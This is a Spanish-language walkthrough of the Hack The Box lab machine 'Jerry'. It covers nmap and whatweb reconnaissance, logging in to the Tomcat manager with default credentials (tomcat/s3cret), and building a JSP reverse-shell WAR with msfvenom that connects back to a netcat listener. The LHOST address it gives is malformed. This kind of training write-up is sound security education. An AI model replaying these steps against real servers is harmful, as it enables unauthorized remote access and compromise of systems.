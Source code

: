 ![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167362483-2fb9697d-8b28-490a-8f61-2a60dcf94c31.png)

En primer lugar, nos creamos un directorio con el nombre de la máquina desde el que trabajaremos:

    sudo mkdir Jerry
    
Ahora, mediante la función [`mkt`](../Herramientas_y_Scripts/mkt.html) que tengo previamente definida en la `.zhshrc` crearemos nuestros directorios de trabajo:

    sudo mkt

Esta función está definida para crearnos cuatro directorios (`nmap`, `content`, `exploits` y `scripts`) desde los cuales poder trabajar a la hora de
realizar las máquinas de HTB.

Ejecutamos un `ping` y vemos como nos reporta un ttl=127, por tanto, ya sabemos que estamos frente una máquina Windows.

    ping -c 1 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-41-43](https://user-images.githubusercontent.com/103068924/167363813-7dab983b-d779-40bb-9ee9-fa2098fad932.png)

Ahora vamos a ver mediante `whatweb` que más podemos ver:

    whatweb 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-48-48](https://user-images.githubusercontent.com/103068924/167364415-8e3dae47-0de7-4b61-b469-d7f0dbff2539.png)

Nos reporta un erro al tratar de acceder. Por tanto, vamos a realizar mediante [`nmap`](../Herramientas_y_Scripts/Nmap.html)
una serie de escaneos para ver que puertos se encuentran abiertos, primero realizaré un escaneo básico:

    nmap -p- --open -T5 -v -n 10.10.10.95 -oG allPorts
  
`-oG` : Exportar los resultados en formato grepeable.
  
`allPorts` : Nombre del archivo. Si no existe lo creará.
  
De esta manera podremos revisar los puertos que estaban abiertos en cualquier momento.

![Captura de pantalla -2022-05-09 10-02-16](https://user-images.githubusercontent.com/103068924/167366619-2fea1b36-9776-47cd-8c0d-a516313f4c11.png)

![Captura de pantalla -2022-05-09 10-02-34](https://user-images.githubusercontent.com/103068924/167366626-008b8f13-f83a-4e1d-a74c-9e3844c33f17.png)

Como podemos ver, nos reporta que el puerto 8080 está abierto, vamos a proceder a un segundo escaneo especificando
que quereros utilizar la variable `--script http-enum` en el puerto 8080 y guardaremos los resultados en el archivo 
`targetenum`.

    sudo nmap --script http-enum -p8080 10.10.10.95 -oN targetenum 
    
![Captura de pantalla -2022-05-07 15-15-30](https://user-images.githubusercontent.com/103068924/167366694-67b211b3-0e2c-45d5-9d33-217119e4df2b.png)

![Captura de pantalla -2022-05-07 15-24-03](https://user-images.githubusercontent.com/103068924/167366815-7cda1186-3b70-4313-b7bd-cbc85727409c.png)

Vemos que en el puerto `8080` corre un servicio `http`, por tanto, vamos a intentar acceder mediante el navegador de Firefox.

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167367405-e0c39dde-b045-4a47-996c-8585896b46e5.png)

Vemos que al intentar acceder al dominio `http://10.10.10.95` la página no termina de cargar, pero tampoco reporta ningún error. Por tanto, lo siguiente que
probaremos será especificar el puerto en el que corre el servicio, por tanto, intentamos acceder al dominio `http://10.10.10.95:8080`.

![Captura de pantalla -2022-05-07 15-11-45](https://user-images.githubusercontent.com/103068924/167368005-2fbf0775-5bb5-4ee6-ba8d-386529a1706c.png)

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167368016-77a414e6-3ce0-4ee2-ae34-d79d955ca882.png)

Genial ya nos carga la página, vemos que se trata de la página oficial de un programa llamado `Tomcat`. Lo siguiente que vamos a probar, es tratar de
acceder al directorio `./manager/html`.

![Captura de pantalla -2022-05-07 15-17-15](https://user-images.githubusercontent.com/103068924/167369103-a8c49c92-7566-4e5a-8cc2-0077f62154ad.png)

![Captura de pantalla -2022-05-07 15-17-33](https://user-images.githubusercontent.com/103068924/167369119-303c65f3-30f4-4435-a170-a8d7ca3a8cd3.png)

Nos muestra una ventana de registro, como se trata de una máquina fácil, podemos probar con combinaciones básicas para ver si conseguimos ingresar
de manera sencilla.

![Captura de pantalla -2022-05-07 15-17-43](https://user-images.githubusercontent.com/103068924/167369536-153cffa5-e7a3-48ba-a9a7-5a6b6a9d761e.png)

Tras probar algunas combinaciones vemos que utilizando el usuario `admin` y la contraseña `admin` nos reporta este mensaje con un error de servicio 403.

![Captura de pantalla -2022-05-07 15-18-05](https://user-images.githubusercontent.com/103068924/167369705-e43f467d-4aea-4226-b0d3-2a8c5c3690b2.png)

Vemos como nos indica un ejemplo, donde nos muestra unas credenciales que se han usado para mostrar el ejemplo.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167369862-6c157b14-f241-4432-8fe9-d5e4707857a1.png)

Tratamos de acceder al panel anterior mediante estas credenciales a ver si nos permite registrarnos como el usuario `tomcat` y empleando la contraseña
`s3cret`.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167370646-06f8b867-1bbc-4920-848a-fd7e651d0a3c.png)

![Captura de pantalla -2022-05-09 10-23-23](https://user-images.githubusercontent.com/103068924/167370670-7fe63026-5173-4dce-bff7-7baeb579db9d.png)

![Captura de pantalla -2022-05-07 15-22-16](https://user-images.githubusercontent.com/103068924/167370734-2bb21a68-2dcd-4897-9047-fde8b66decbe.png)

Las credenciales funcionan y nos lleva hasta una página que parece gestionar aplicaciones. 

Tras revisar la página vemos que nos permite subir archivos, así que vamos a tratar de buscar alguna herramienta que nos permita crear una
shell inversa desde la cual poder interactuar con la máquina.

Mediante `msfvenom` podemos tratar de comprobar una gran cantidad de herramientas:

    msfvenom -l payloads

![Captura de pantalla -2022-05-07 15-25-25](https://user-images.githubusercontent.com/103068924/167371974-d9b41da2-3d47-40a1-8498-6d2f25678fc3.png)

![Captura de pantalla -2022-05-07 15-27-24](https://user-images.githubusercontent.com/103068924/167372055-941c21d6-2d55-4808-9994-391d329511a5.png)

Vamos a emplear la herramienta `jsp_shell_reverse_tcp`. Esta herramienta, especificándole nuestro host de escucha y el puerto mediante el siguiente
comando, nos creará un archivo en formato `.war` capaz de crear una shell inversa desde la máquina víctima.

![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167385544-1f78a708-b08c-4c23-b6b3-8787c0f05fd4.png)

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.14.29 LPORT=8080 -f war -o shell.war
    
![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167376951-11f44b27-79b4-4988-b325-4f8e8423ccb7.png)
    
Una vez creado nuestro archivo `shell.war` vamos a subirlo a la máquina víctima, pero antes, debemos mover nuestro archivo
al directorio `Descargas/Downloads`:

![Captura de pantalla -2022-05-07 15-32-25](https://user-images.githubusercontent.com/103068924/167373933-05569db6-7535-4e68-b2a3-ae5c0e72fb63.png)

Ahora, mediante el apartado de la página llamado `Archivo WAR a desplegar` subimos nuestro archivo `shell.war`.

![Captura de pantalla -2022-05-07 15-32-55](https://user-images.githubusercontent.com/103068924/167374610-e9b1e566-2a29-4116-bfec-33a11ae25fc6.png)

![Captura de pantalla -2022-05-07 15-33-38](https://user-images.githubusercontent.com/103068924/167374653-431287e4-5091-47b0-968a-85ec85904e40.png)

![Captura de pantalla -2022-05-07 15-34-28](https://user-images.githubusercontent.com/103068924/167374662-ab39d3f4-9253-43a4-9079-91b7a7caf281.png)

![Captura de pantalla -2022-05-07 15-34-42](https://user-images.githubusercontent.com/103068924/167374683-17d0860c-4808-40af-9788-25955448d081.png)

Recargamos la página y vemos como aparece nuestro archivo. El siguiente paso será ponerlo en escucha por el puerto `8080` mediante `nc` como se 
trata de un sistema Windows utilizaremos `rlwarp`:

    rlwrap nc -lvnp 8080

![Captura de pantalla -2022-05-09 11-07-21](https://user-images.githubusercontent.com/103068924/167385711-908c4b6b-e40d-48c2-8978-5536a0850301.png)


![Captura de pantalla -2022-05-09 11-07-30](https://user-images.githubusercontent.com/103068924/167386060-d0be171e-6afb-468c-a5c4-8699f4ffc08a.png)


Ahora, para ejecutar el archivo, simplemente nos vamos a la página y lo pulsamos.


![Captura de pantalla -2022-05-09 11-49-32](https://user-images.githubusercontent.com/103068924/167386089-4cd94622-03f5-45df-83d6-da925a2ea417.png)

Vemos como la shell se nos despliega en la terminal que tenemos en escucha con Netcat.

![Captura de pantalla -2022-05-09 11-55-16](https://user-images.githubusercontent.com/103068924/167386486-2bea3986-982e-4163-8293-4cf58fccc4f4.png)

Está máquina ya está básicamente terminada, ya que las dos flags se encuentran en el mismo archivo, el cual se encuentra en el directorio 
`C:\Users\Administrator\Desktop\flags`:

    cd /Users/Administrator/Desktop/flags
    
Vemos como dentro del directorio `flags` se encuentra el archivo `2 for the price at 1.txt`

![Captura de pantalla -2022-05-09 12-01-47](https://user-images.githubusercontent.com/103068924/167387535-4165e282-73a2-4d0a-a41a-4893cd492ef6.png)

Y finalmente, mediante `type` podemos visualizar el contenido:

![Captura de pantalla -2022-05-07 15-59-28](https://user-images.githubusercontent.com/103068924/167387517-8daf25ec-3c37-486f-8695-2894ca5daabe.png)


![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167387740-ca9ebbf6-6e75-47f5-b8e5-076a6e0eee27.png)




